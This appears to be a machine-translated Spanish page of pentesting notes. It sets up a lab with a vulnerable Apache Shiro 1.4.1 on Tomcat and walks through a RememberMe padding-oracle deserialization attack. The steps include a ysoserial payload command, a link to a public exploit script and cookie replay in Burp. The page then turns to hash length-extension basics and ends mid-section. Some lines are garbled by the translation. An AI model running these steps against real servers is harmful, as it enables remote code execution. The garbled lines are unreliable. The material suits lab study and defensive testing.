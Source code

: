 Hemos configurado nuestro propio entorno vuln usando Apache Shiro 1.4.1 + tomcat:8-jre8

```
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.4.1
mvn install
cd samples/web
mvn install
```

Copie el paquete samples-web-1.4.1.war (samples/target) obtenido después de la compilación en el directorio Tomcat webapps

```
start tomcat
```

#### El ataque <a href="#the-attack" id="the-attack"></a>

1 - Agarra la galleta con ERUCTO

2 - Cree una carga útil serializada con YsoSerial:

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/Success" > payload.class
```

3 - Descargue el exploit disponible públicamente:

```
https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
# use to captures the 'remember me' cookie as a prefix For the Padding Oracle attack
```

4 - Después de un par de horas, el script de explotación nos proporcionó una cookie válida que contenía nuestra carga útil. Esta cookie será deserializada por el servidor vuln

5 - Utilice el repetidor BURP para emitir una solicitud sin cookie elaborada.

> Los ataques de oráculo de relleno son ataques de texto cifrado elegido (CCA)

### Fundamentos <a href="#fundamentals" id="fundamentals"></a>

Hay aplicaciones web que anteponen un valor secreto a los datos, hash de este valor con un algoritmo defectuoso y proporcionan al usuario tanto los datos como el hash, pero no el secreto

```
# On other part of the communication, the server relies on the secret For data validation purposes
# An attacker that does not know the value of the secret can still generate a valid hash For 
{secret || data || attacker_controlled_data}.

# An attacker can calculate a valid hash For a message without knowing the value of the secret. 
# He can do that by just guessing its length. Hashes are calculated in blocks and the hash of one block is the state For the next block.
```

Ejemplo
